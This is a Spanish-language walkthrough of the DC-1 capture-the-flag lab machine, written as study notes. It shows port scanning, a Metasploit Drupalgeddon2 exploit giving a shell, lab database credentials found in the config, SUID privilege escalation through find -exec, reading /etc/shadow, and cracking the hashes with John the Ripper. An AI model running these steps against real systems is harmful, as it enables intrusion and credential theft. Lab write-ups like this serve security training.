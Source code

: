 # Machine dc-1

## Informtion Gathering

1. Primero realizo un escaneo de puerto asi:

```
$ nmap -sV 192.168.0.27
``` 
2. El resultado es el siguiente:

```
PORT       STATE  SERVICE   VERSION 
22/tcp     open   ssh       OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
111/tcp    open   rpcbind   2-4 (RPC #100000)
80/tcp     open   http      Apache httpd 2.2.22 ((Debian)

``` 

## Analisis de vulnerabilidades

- Voy a nessus a realizar un escaneo pero no hay nada util

- decido buscar en internet vulnerabilidades de Drupal y encontre una de nombre **Drupalgeddon3** esta para **metasploit** y es esta **https://www.exploit-db.com/exploits/44557**

- Tambine decido ejecutar **searchsploit Drupal** y si quiero buscar vulnerabilidades en **db-exploit** es con esta instrucción **-www** de esta manera **searchsploit Drupal -www** y encontre un exploit interesante y es este **Drupal Module RESTWS 7.x - PHP Remote Code Execution (Metasploit) | php/remote/40130.rb**, pero quiero ver el codigo de ese exploit entonces coloco esto **searchsploit -x php/remote/40130.rb**

## Exploiting

1. Ejecuto **Metasploit** para poder usar este exploit **unix/webapp/drupal_drupalgeddon2**
2. Configuro el **RHOSTS** y lanzo el exploit con **exploit**
3. Ya obtengo una sesion de **Meterpreter**
4. Entonces Decido buscar algo interesante en la directorio **/var/wwww**
5. Lo interesante que encontre fue los datos de conexion a la base de datos
```
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupaldb',
      'username' => 'dbuser',
      'password' => 'R0ck3t',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
```
6. Entonces decido ingresar a **Mysql** pero debo primero iniciarlo así:
```
$ systemctl start mysql
$ systemctl status mysql
$ sudo service mysql start  
$ sudo service mysql status

```
7. Para conectarme es de esta manera:
```
mysql -h localhost -u dbuser -p
```
8. pero no me funciono la conexion a la base de datos
9. Como tengo la conexion de **meterpreter** entonces ejecuto esto
```
shell
```
10. Con el comando anterior ya tengo una **shell** de **Linux**
11. Voy a colocar el **Promtp** de esta manera
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
12. Luego decido buscar archivos que tengan permisos **SUID**
```
find / -perm -u=s -type f 2>/dev/null
```
13. Como resultado me sale esto
```
$ /usr/bin/find
```
14. Con el comando **find** puedo ejecutar archivos así
```
find . -exec '/bin/sh' \;
```
15. si colocamos el comando **whoami** ya somos **root**
16. entonces voy a sacar los hash con **cat /etc/shadow**
17. Buscamos el directorio el archivo **rockyou** así
```
$ locate rockyou
```
18. descomprimimos **/usr/share/wordlists/rockyou.txt.gz**
18. Vamos a decifrar los **hash** con **John de ripper**
```
john --wordlist=/root/rockyou.txt pass.txt
```

## Glosario

- El punto **(.)**: representa el directorio actual, es decir que el **find .** sirve para buscar en el directorio actual

- El **-exec**: permite ejecutar acciones sobre el resultado de cada línea o archivo devuelto por find, o en otras palabras permite incorporar comandos externos para ejecutar sobre cada resultado devuelto. Muy interesante. Asi por ejemplo, si queremos buscar todos los archivos mayores a 3 megas en /var y además mostrar su salida en formato ls, podemos hacer lo siguiente:
```
$ find /var -size +3000k -exec ls -lh {} \;
```
- Después de ls -lh que nos devuelve una salida formateada de ls se indica la cadena '{}' que se sustituye por cada salida de find.

- El **SUID**: 

## Investigación

https://latesthackingnews.com/2018/09/02/droopescan-cms-based-web-applications-scanner/

https://www.rapid7.com/db/?q=XML-RPC+&type=metasploit

https://www.drupal.org/forum/newsletters/security-advisories-for-drupal-core/2016-02-24/drupal-core-critical-multiple

https://www.exploit-db.com/exploits/1078

https://noticiasseguridad.com/vulnerabilidades/hackers-se-infiltran-en-sitios-web-explotando-nueva-vulnerabilidad-en-drupal/

https://www.incibe-cert.es/alerta-temprana/avisos-seguridad/multiples-vulnerabilidades-el-core-drupal-0

https://www.cvedetails.com/cve/CVE-2018-7602/

https://www.linuxtotal.com.mx/index.php?cont=info_admon_022

http://docencia.udea.edu.co/cci/linux/dia4/directorio.htm

http://www.investigacion.frc.utn.edu.ar/labsis/Publicaciones/apunte_linux/mmad.html

https://www.comoinstalarlinux.com/comandos-linux-find-con-ejemplos/

https://www.cvedetails.com/cwe-details/20/Improper-Input-Validation.html

## Explotación maquina dc-1

https://medium.com/@w3rallmachines/dc-1-vulnhub-walkthrough-3a2e7042c640

https://hackingresources.com/dc-1-1-vulnhub-walkthrough/
